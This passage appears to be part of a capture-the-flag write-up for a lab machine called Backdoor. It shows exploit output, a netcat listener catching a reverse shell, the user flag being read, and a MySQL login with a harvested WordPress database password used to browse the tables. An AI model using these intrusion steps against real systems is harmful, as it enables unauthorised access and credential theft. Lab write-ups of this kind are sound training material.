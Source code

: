 ```bash
[+] Connected to target. Preparing exploit
[+] Found x64 arch
[+] Sending payload
[*] Pwned!! Check your listener

┌──(void㉿void)-[/htb/backdoor]
└─$ nc -lvnp 4488             
listening on [any] 4488 ...
connect to [10.10.14.30] from (UNKNOWN) [10.129.108.149] 50400
id && hostname
uid=1000(user) gid=1000(user) groups=1000(user)
Backdoor
cat user.txt
d41625febafce97713402b47d1044f48
```



-------------

<br>

# ROOT

### Step 1
From our LFI we were able to extract the wordpress database information, lets start by looking around there.

```mysql
user@Backdoor:/home/user$ mysql wordpress -u wordpressuser -p
Enter password: MQYBJSaD#DxG6qbm
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+
2 rows in set (0.00 sec)

mysql> use wordpress;
Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)

mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+---------------------+---------------------+---------------------+---------------------+-------------+--------------+
```
